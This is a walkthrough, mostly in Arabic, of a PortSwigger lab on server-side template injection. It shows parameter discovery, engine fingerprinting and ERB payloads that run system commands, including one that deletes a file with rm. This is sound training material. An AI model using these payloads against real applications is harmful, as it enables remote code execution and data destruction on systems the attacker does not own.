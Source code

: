 ## Welcome, my friend. Today we will start the [1. SSTI lab](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic) in ```portswigger```
### Let's play this lab:

#### First, we navigate inside the browser
![image](https://github.com/user-attachments/assets/67461762-3861-4244-88c5-ee4fb9086d6d)

# الثغرة دي هيتم شرحها باللغة العربية علشان نسهل على بعض :)

### اول خطوة هي اننا نتصفح الموقع ونرى ما هو مريب علشان نستغلها في اختراق ذلك التحدي.
![image](https://github.com/user-attachments/assets/318cca01-d744-4335-92f2-381a7149940a)

### لم نلاحظ اي شئ مهم لغاية دلوقتي هنبدأ نبحث على param hidden من خلال burp امتداد param miner :
![image](https://github.com/user-attachments/assets/90ae18ec-a3c3-4354-85af-c70333411e43)

### اكتشفنا hidden param اسمه message وده اللي هنستغله:
![image](https://github.com/user-attachments/assets/e46daee4-f2b7-4a6e-8a60-4516189b486d)

### نبدأ نحقن كود زي ده علشان نشوف هيحصل تغير ولا لا
```
/?message=${{<%[%'"}}%\
```

![image](https://github.com/user-attachments/assets/5b3b1844-2811-4782-ab4b-d4035f756985)

### تم نسخ النصوص من غير اي مشاكل معنى ذلك ان الاستغلال تبع مكتبة معينة وليس من ضمن مكاتب بايثون مثل jinja ممكن تكون مثلا rupy. هنجرب الكود التالي ونشوف لو في اي تغيير:

```
/?message=<%= mohamed %>
```

![image](https://github.com/user-attachments/assets/4f438eda-bc7a-4516-9443-d9ab1fccb19f)

### جميل تم ظهور خطأ يشير ان المكتبة المستخدمة هي rupy. دلوقتي ممكن نبحث عن اكواد الحقن زي موقع hacktricks:
![image](https://github.com/user-attachments/assets/95a98468-f6d9-48d8-9061-d125c1851e79)


### هنستخدم ذلك الكود:

```
/?message=<%= system("whoami") %> #Execute code
```

![image](https://github.com/user-attachments/assets/17fffaea-6acb-4e06-8a92-e5d3bf6235bc)


### تم استغلال الكود ممكن نستخدم امر ls علشان نعرف المحتوى:


```
/?message=<%= system("ls") %> #Execute code
```

![image](https://github.com/user-attachments/assets/e7cf1ae7-f845-480a-bf96-12cef31b26dd)

### علشان نحل ذلك التحدي لازم نحذف ملف ```morale.txt```. هنستخدم ذلك الكود:
```
/?message=<%= system("rm morale.txt") %> #Execute code
```

![image](https://github.com/user-attachments/assets/10fe49b9-cbdd-479d-9fc7-be87aced9902)

## وهنا تم حل اللاب يا صديقي ;)





![6563e6979e46c15f_tumblr_inline_n7kbn3iqz41scrulr](https://github.com/user-attachments/assets/327e3cab-0dca-4505-b1c4-9f9bbbbf7e77)





